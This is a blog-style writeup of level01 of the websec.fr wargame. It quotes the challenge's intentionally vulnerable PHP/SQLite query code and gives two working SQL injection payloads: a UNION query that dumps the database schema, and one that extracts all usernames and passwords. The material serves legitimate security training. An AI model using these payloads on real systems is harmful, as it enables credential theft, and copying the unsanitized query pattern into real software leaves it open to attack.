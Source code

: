 # Websec.fr writeup

In this blog we solve the levels hosted in [websec.fr](https://websec.fr/).

As the authors describe, it "is a wargame site providing various web-based challenges". 

The levels are divided in 4 (+1) categories: babysteps, easy, medium, hard and a bonus category.

I suggest to attempt the challenges on your own before reading the solutions.

Let's start. 

## level01 - babysteps

The web application employs PHP and SQLite. In fact, if we click on *This application on the bottom* we are redirected to */source.php* and here we can read the source code. 

Analyzing it, we immediately note the vulnerable line of the code: it lies on the *LevelOne::doQuery()* function. Specifically, no sanitization is executed on the user input. 

```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; 
        $getUsers = $pdo->query($query); //[bob01: vulnerable line: no input sanitization]
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

As we know, each SQLite database contains a *schema table* that stores the schema for that database, i.e., *sqlite_schema* (sqlite_schema can have different name alternatives, see [link](https://www.sqlite.org/schematab.html)).

Then, by simply running an UNION query, namely:

```
-1 union select 1,sql from sqlite_master --
```

we get the following output:

![img1](/images/websec/img1.png?raw=true) 

Now, we know that the *users* table contains three columns, that are: id, username and password; we can then exploit the *GROUP_CONCAT()* function ([link](https://www.sqlitetutorial.net/sqlite-group_concat/) on how to use it):

```
-1 union select username,group_concat(password, ';') from users --
```

and get the flag:

![img2]()
